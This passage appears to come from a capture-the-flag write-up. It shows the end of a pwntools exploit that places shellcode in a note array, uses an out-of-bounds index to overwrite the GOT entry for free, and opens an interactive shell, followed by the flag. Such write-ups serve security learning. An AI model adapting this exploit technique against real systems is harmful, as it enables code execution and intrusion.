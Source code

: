 ```python 

    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 

    xor [ebp + 0x35], di

    ''', arch='i386')

note = 0x0804a060
free = exe.got['free']
index = (free - note) / 4
log.info('note: ' + hex(note))
log.info('free: ' + hex(free))
log.info('index: ' + str(index))

p.sendafter(b'choice :' , b'1')
p.sendafter(b'Index :' , str(index))
p.sendafter(b'Name :' , shellcode)

p.sendafter(b'choice :' , b'3')
p.sendafter(b'Index :' , str(index))


p.interactive()

# FLAG{sh3llc0d3_is_s0_b34ut1ful}

```

## Flag

FLAG{sh3llc0d3_is_s0_b34ut1ful}





